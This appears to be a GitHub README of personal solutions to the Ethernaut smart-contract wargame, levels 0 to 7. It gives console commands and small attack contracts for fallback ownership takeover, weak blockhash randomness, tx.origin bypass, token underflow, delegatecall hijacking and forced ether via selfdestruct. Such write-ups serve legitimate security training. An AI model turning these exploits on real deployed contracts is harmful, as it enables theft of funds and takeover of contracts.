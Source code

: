 # Ethernaut

The Ethernaut is a Web3/Solidity based wargame inspired on overthewire.org, played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'.
Here are my solutions for each level.

## 0.Hello Ethernaut

```
> contract.info()
< [[PromiseResult]]: "You will find what you need in info1()."

> contract.info1()
< [[PromiseResult]]: "Try info2(), but with \"hello\" as a parameter."

> contract.info2("hello")
< [[PromiseResult]]: "The property infoNum holds the number of the next info method to call."

> contract.abi

> let x = await contract.infoNum()

> x.toString()
< '42'

> contract.info42()
< [[PromiseResult]]: "theMethodName is the name of the next method."

> contract.theMethodName()
< [[PromiseResult]]: "The method name is method7123949."

> contract.method7123949()
< [[PromiseResult]]: "If you know the password, submit it to authenticate()."

> contract.password()
< [[PromiseResult]]: "ethernaut0"

> contract.authenticate("ethernaut0")
```

Submit the instance by clicking the orange button.

```(-(-_(-_-)_-)-) Well done, You have completed this level!!!```

## 1. Fallback
```
> contract.contribute({value:toWei("0.0001", "ether")})

> web3.eth.sendTransaction({to:"0x3D585bb9145ca9101D5EdA79E138D854242FF90C", 
	value:toWei("0.0001", "ether"), from:"0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"})
	
> contract.owner()
< [[PromiseResult]]: "0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"

> contract.withdraw()

> getBalance("0x3D585bb9145ca9101D5EdA79E138D854242FF90C")
< [[PromiseResult]]: "0"
```

Submit the instance by clicking the orange button.

```\,,/(◣_◢)\,,/ Well done, You have completed this level!!!```

## 2. Fallout
```
> contract.Fal1out()
```
Submit Instance

```☜Ҩ.¬_¬.Ҩ☞ Well done, You have completed this level!!!```

## 3. CoinFLip

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

import "./CoinFlip.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

contract Win {
    
    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    CoinFlip public coinflip;
    constructor(address conFlipAddress) public {
        coinflip = CoinFlip(conFlipAddress);
    }
    // address public coinflip_add = 0x0Fd8F81a893762013486d74b6b61fA0704d07D4b;
    
    function _guess() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        coinflip.flip(side);
    }
}
```
Copy the Coin Flip contract into CoinFlip.sol and deploy win.sol. Call _guess() 10 times.

> contract.consecutiveWins()

## 4. Telephone 
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract Hack {
    Telephone public tele;

    constructor(address tele_add) public {
        tele = Telephone(tele_add);
    }

    function change_owner(address _owner) public {
        tele.changeOwner(_owner);
    }
}

```
```
ʕ•̫͡•ʕ*̫͡*ʕ•͓͡•ʔ-̫͡-ʕ•̫͡•ʔ*̫͡*ʔ-̫͡-ʔ Well done, You have completed this level!!!
```

## 5. Token

> contract.transfer("Instance address",21)

Submit the instance 
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

## 6. Delegation
```
> await web3.eth.abi.encodeFunctionSignature("pwn()")
< '0xdd365b8b'

> await web3.eth.sendTransaction({from:"0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0",
 data:"0xdd365b8b", to:"0xD59491bF35887E4A36Fb197EB5739A02f03d4516"})
 
```
Submit instance 
``` ✌(◕‿-)✌ Well done, You have completed this level!!! ```

## 7. Force 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {
    
    function destruct(address payable _victim) public payable {
        selfdestruct(_victim);
    }

    receive() external payable {}
}
```







